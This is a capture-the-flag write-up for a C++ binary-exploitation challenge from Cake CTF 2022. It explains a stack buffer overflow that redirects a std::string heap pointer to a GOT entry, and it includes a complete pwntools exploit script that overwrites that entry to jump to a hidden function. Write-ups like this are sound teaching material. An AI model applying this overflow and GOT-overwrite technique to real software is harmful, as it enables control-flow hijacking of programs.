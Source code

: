 ```yaml
---
title: str vs cstr
date: 2022-09-05
readtime: true
tags: [got-overwrite,partial-relro,cpp,string,pwn]
---
```

### Attachments : [chall](https://github.com/0xSh4dy/ctf_writeups/raw/master/cake-ctf-2022/strVsCstr/chall) , [main.cpp](https://github.com/0xSh4dy/ctf_writeups/raw/master/cake-ctf-2022/strVsCstr/main.cpp)
<br>

So, this was an interesting challenge on CPP pwn from Cake CTF. This was the first time I tried my hands on cpp pwning. 

First of all, let's have a look on the security features
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
Partial RELRO and No PIE! Interesting.

Analyzing the source code of this challenge, we can easily spot a buffer overflow. 
```cpp

struct Test{

char* c_str() { return _c_str; }
...
private:
    char _c_str[0x20];
    std::string _str;
}

...
case 1: // set c_str
        std::cout << "c_str: ";
        std::cin >> test.c_str();
        break;
```
So, the program is reading data into `_c_str` without any size check which can be used to cause a buffer overflow. 

Now, let's drop the binary in gdb and add some random data.

<img  src="https://github.com/0xSh4dy/ctf_writeups/raw/master/cake-ctf-2022/images/strVsCstr_1.png"/>

<img  src="https://github.com/0xSh4dy/ctf_writeups/raw/master/cake-ctf-2022/images/strVsCstr_2.png"/>

Interesting. It is clear that `std::string` is stored in the heap and a pointer to that chunk is stored at `0x7fffffffdd20`, just after the buffer `_c_str`. User data will be read into that chunk whenever `std::cin>>test.str();` is called. We can use the buffer overflow on `_c_str` to replace the pointer to a heap chunk with a GOT address. After that, calling `std::cin>>test.str();` would read user supplied data into that particular GOT address. One suitable GOT entry is `_ZStlsIcSt11char_trait@GLIBCXX_3.4.21` i.e `0x404040`. This will be executed whenever `std::cout << "str: " << test.str() << std::endl;` is called i.e option 4.
Now, let's perform a GOT overwrite to make the pointer at `0x404040` point to `Test::call_me` i.e `0x4016de`.

```py
#!/usr/bin/env python3
from pwn import *
elf = context.binary = ELF("./chall")
# p = elf.process()
# gdb.attach(p)
# 
p = remote("pwn1.2022.cakectf.com",9003)

def set_str(data):
	p.sendlineafter("choice: ","3")
	p.sendlineafter("str: ",data)

def set_cstr(data):
	p.sendlineafter("choice: ","1")
	p.sendlineafter("c_str: ",data)

def get_str():
	p.sendlineafter("choice: ","2")
	return p.recvline()[:-1]

def get_cstr():
	p.sendlineafter("choice: ","4")
	return p.recvline()[:-1]


set_str('0'*20)
set_cstr(b'a'*32+p64(0x404040))
set_str(p64(0x00000000004016de))
p.sendline('4')
p.interactive()
```
<img  src="https://github.com/0xSh4dy/ctf_writeups/raw/master/cake-ctf-2022/images/strVsCstr_3.png"/>

### References
<a href="https://ptr-yudai.hatenablog.com/entry/2021/11/30/235732">https://ptr-yudai.hatenablog.com/entry/2021/11/30/235732</a>
<br>
<a href="https://www.slideshare.net/AngelBoy1/pwning-in-c-basic">https://www.slideshare.net/AngelBoy1/pwning-in-c-basic</a>
